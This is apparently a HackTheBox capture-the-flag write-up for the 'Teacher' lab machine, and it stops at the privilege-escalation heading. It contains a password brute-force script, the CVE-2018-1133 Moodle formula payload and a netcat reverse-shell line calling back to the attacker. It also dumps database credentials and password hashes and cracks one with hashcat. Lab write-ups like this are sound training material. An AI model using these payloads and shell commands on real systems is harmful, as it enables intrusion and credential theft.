



# HTB Teacher (10.10.10.153) Write-up

## PART 1 : Initial Recon

```console
nmap --min-rate 1000 -p- -v 10.10.10.153
```
```
PORT   STATE SERVICE
80/tcp open  http
```
```console
nmap -oN teacher.nmap -p 80 -sC -sV -v 10.10.10.153
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```
---

## PART 2 : Port Enumeration

- Visit http://10.10.10.153/
  - Landing Page:
    
    

  - Check __GALLERY__ [(__*/gallery.html*__)](http://10.10.10.153/gallery.html#)

    

    __Note__:
    - One of the images failed to load
      ```html
      <a href="#"></a>
      ```
  
  - Open the image using `curl`
    ```console
    curl http://10.10.10.153/images/5.png
    ```
    ```
    Hi Servicedesk,

    I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

    Could you guys figure out what the last charachter is, or just reset it?

    Thanks,
    Giovanni
    ```
    __Notes__
    - An incomplete password was given for __Giovanni__
    - Where to use the credentials is stil unknown

- Run `gobuster` on http://10.10.10.153/

  ```console
  gobuster -u http://10.10.10.153 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

  # /images (Status: 301)
  # /css (Status: 301)
  # /manual (Status: 301)
  # /js (Status: 301)
  # /javascript (Status: 301)
  # /fonts (Status: 301)
  # /phpmyadmin (Status: 403)
  # /moodle (Status: 301)
  ```

- Visit http://10.10.10.153/moodle/
  - Landing Page:
    
    

  - Login Page:
    
    

---

## PART 3 : Generate User Shell

1. Complete Giovanni's incomplete password:
   - __*moodle_login.py*__
     ```py
     import requests as r

     characters = "abcdefghijklmnopqrstuvwxyz1234567890!@#$%^&*()"
     for i in characters:
    
         creds = {
             "username": "Giovanni",
             "password": "Th4C00lTheacha" + i
         }
    
         req = r.post("http://10.10.10.153/moodle/login/index.php", data=creds)

         err_message = "Invalid login"
         if err_message not in req.text: 
        
             print("PASSWORD: " + creds["password"])
             break
     ```
   - Run the python script
     ```console
     python3 moodle_login.py
     ```
   - Output:
     ```
     PASSWORD: Th4C00lTheacha# 
     ```

2. Login using __giovanni__:__Th4C00lTheacha#__
   1. Set-up moodle exploit -- __Evil Teacher__ ([CVE-2018-1133](https://blog.ripstech.com/2018/moodle-remote-code-execution/]))
      1. Select a quiz
      2. Click __Edit quiz__
      3. Add a new question
         1. Select __Calculated__ then __Add__
         2. Fill up the required fields:
            - Question name: \<ANYTHING GOES HERE\>
            - Question text: \<ANYTHING GOES HERE\>
            - Answer 1 Formula: `/*{a*/`$_GET[cmd]`;//{x}}`
            - Grade: 100%
      4. Click __Save changes__
      5. Click __Next page__
   2. Set-up local netcal listener 
      ```console
      nc -lvp 4444
      ```
   3. Append `&cmd=(date; nc <HTB IPv4> 4444 -e /bin/bash)` to URL
   4. Submit the URL

3. While inside the shell:
   ```console
   id
   # &cmd=(date; nc <HTB IPv4> 4444 -e /bin/bash)

   python -c 'import pty; pty.spawn("/bin/bash")'
 
   cat /etc/passwd | grep bash
   # root:x:0:0:root:/root:/bin/bash
   # giovanni:x:1000:1000:Giovanni,1337,,:/home/giovanni:/bin/bash

   find /var/www -name *conf* 2> /dev/null
   # ...
   # /var/www/html/moodle/config.php
   # ...

   cat /var/www/html/moodle/config.php
   ```
   - __*/var/www/html/moodle/config.php*__ contents
     ```PHP
     <?php  // Moodle configuration file

     unset($CFG);
     global $CFG;
     $CFG = new stdClass();

     $CFG->dbtype    = 'mariadb';
     $CFG->dblibrary = 'native';
     $CFG->dbhost    = 'localhost';
     $CFG->dbname    = 'moodle';
     $CFG->dbuser    = 'root';
     $CFG->dbpass    = 'Welkom1!';
     $CFG->prefix    = 'mdl_';
     $CFG->dboptions = array (
       'dbpersist' => 0,
       'dbport' => 3306,
       'dbsocket' => '',
       'dbcollation' => 'utf8mb4_unicode_ci',
     );

     $CFG->wwwroot   = 'http://10.10.10.153/moodle';
     $CFG->dataroot  = '/var/www/moodledata';
     $CFG->admin     = 'admin';

     $CFG->directorypermissions = 0777;

     require_once(__DIR__ . '/lib/setup.php');

     // There is no php closing tag in this file,
     // it is intentional because it prevents trailing whitespace problems!
     ```
   - Enter __MariaDB CLI__
     ```console
     mariadb -uroot -pWelkom1!

     # MariaDB [(none)]> SHOW databases;

     # +--------------------+
     # | Database           |
     # +--------------------+
     # | ...                |
     # | moodle             |
     # | ...                |
     # +--------------------+

     # MariaDB [(none)]> USE moodle

     # MariaDB [moodle]> SHOW tables;
    
     # +----------------------------------+
     # | Tables_in_moodle                 |
     # +----------------------------------+
     # | ...                              |
     # | mdl_user                         |
     # | ...                              |
     # +----------------------------------+

     # MariaDB [moodle]> SELECT * FROM mdl_user;
   
     # +------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+
     # | id   | auth   | confirmed | policyagreed | deleted | suspended | mnethostid | username    | password                                                     | idnumber | firstname  | lastname | email          | emailstop | icq | skype | yahoo | aim | msn | phone1 | phone2 | institution | department | address | city | country | lang | calendartype | theme | timezone | firstaccess | lastaccess | lastlogin  | currentlogin | lastip        | secret | picture | url | description                                                               | descriptionformat | mailformat | maildigest | maildisplay | autosubscribe | trackforums | timecreated | timemodified | trustbitmask | imagealt | lastnamephonetic | firstnamephonetic | middlename | alternatename |
     # +------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+
     # |    1 | manual |         1 |            0 |       0 |         0 |          1 | guest       | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO |          | Guest user |          | root@localhost |         0 |   |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |               |  |       0 |     | This user is a special user that allows read-only access to some courses. | 1 |          1 |          0 |           2 |             1 |           0 |           0 |   1530058999 |    0 | NULL     | NULL             | NULL              | NULL       | NULL          |
     # |    2 | manual |         1 |            0 |       0 |         0 |          1 | admin       | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 |          | Admin      | User     | gio@gio.nl     |         0 |   |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |  1530059097 | 1530059573 | 1530059097 |   1530059307 | 192.168.206.1 |  |       0 |     |                                                                           | 1 |          1 |          0 |           1 |             1 |           0 |           0 |   1530059135 |    0 | NULL     |                  |                   |            |               |
     # |    3 | manual |         1 |            0 |       0 |         0 |          1 | giovanni    | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO |          | Giovanni   | Chhatta  | Giio@gio.nl    |         0 |   |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |  1530059681 | 1555841309 | 1555840529 |   1555840557 | 10.10.15.36   |  |       0 |     |                                                                           | 1 |          1 |          0 |           2 |             1 |           0 |  1530059291 |   1530059291 |    0 |          |                  |                   |            |               |
     # | 1337 | manual |         0 |            0 |       0 |         0 |          0 | Giovannibak | 7a860966115182402ed06375cf0a22af                             |          |            |          |                |         0 |   |       |       |     |     |        |        |             |            |         |      |         | en   | gregorian    |       | 99       |           0 |          0 |          0 |            0 |               |  |       0 |     | NULL                                                                      | 1 |          1 |          0 |           2 |             1 |           0 |           0 |            0 |    0 | NULL     | NULL             | NULL              | NULL       | NULL          |
     # +------+--------+-----------+--------------+---------+-----------+------------+-------------+--------------------------------------------------------------+----------+------------+----------+----------------+-----------+-----+-------+-------+-----+-----+--------+--------+-------------+------------+---------+------+---------+------+--------------+-------+----------+-------------+------------+------------+--------------+---------------+--------+---------+-----+---------------------------------------------------------------------------+-------------------+------------+------------+-------------+---------------+-------------+-------------+--------------+--------------+----------+------------------+-------------------+------------+---------------+

     # MariaDB [moodle]> \q
     ```
     __Notes__:
     - The user __Giovannibak__ has a different password hash than the rest
     - __Giovannibak__'s password is in __MD5__
   
   - Decrypt __Giovannibak__'s password:
     ```console
     hashcat --force -m0 7a860966115182402ed06375cf0a22af /usr/share/wordlists/rockyou.txt
     # 7a860966115182402ed06375cf0a22af:expelled
     ```
   - Go back to __www-data__ shell 
     ```console
     su giovanni
     # Password: expelled

     id
     # uid=1000(giovanni) gid=1000(giovanni) groups=1000(giovanni)
     
     cat ~/user.txt
     # fa9ae187462530e841d9e61936648fa7
     ```

---

## STEP 4 : Privilege Escalation __(giovanni -> root)__

1. Download and upload [pspy](https://github.com/DominicBreuker/pspy)
   1. Check system architecture of FriendZone
      ```console
      uname -mnop
      # teacher x86_64 unknown GNU/Linux
      ```
      __Note__:
      - The system runs on 64-bit
   2. Upload [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.0.0/pspy64) to Teacher
      - Local terminal:
        ```console
        python -m SimpleHTTPServer
        # Serving HTTP on 0.0.0.0 port 8000 ...
        ```
      - Teacher shell:
        ```console
        wget -O /tmp/pspy64 http://<HTB IPv4>:8000/pspy64
        # ‘/tmp/pspy64’ saved [4468984/4468984]
        
        chmod +x /tmp/pspy64
        ```
2. Run __pspy64__
   ```console
   ./pspy64
   # ...
   # 04:01 CMD: UID=0    PID=1342   | /bin/bash /usr/bin/backup.sh
   # ...
   # 05:01 CMD: UID=0    PID=1354   | /bin/bash /usr/bin/backup.sh
   # ...
   # 06:01 CMD: UID=0    PID=1375   | /bin/bash /usr/bin/backup.sh
   # ...
   ```
   __Notes__:
   - There is a script called __*backup.sh*__
   - It runs every minute
3. Examine __*/usr/bin/backup.sh*__
   - __*backup.sh*__ contents:
     ```sh
     #!/bin/bash
     cd /home/giovanni/work;
     tar -czvf tmp/backup_courses.tar.gz courses/*;
     cd tmp;
     tar -xf backup_courses.tar.gz;
     chmod 777 * -R;
     ```
    __Notes__:
    - The script is being ran by __root__ periodically
    - Contents of the `courses/` directory are compressed
      - The compressed file is saved in `~/work/tmp`
    - The compressed file is decompressed on where it is saved
    - The first __tar__ and __chmod__ use wildcards ("__*__")
4. Exploit __*/usr/bin/backup.sh*__
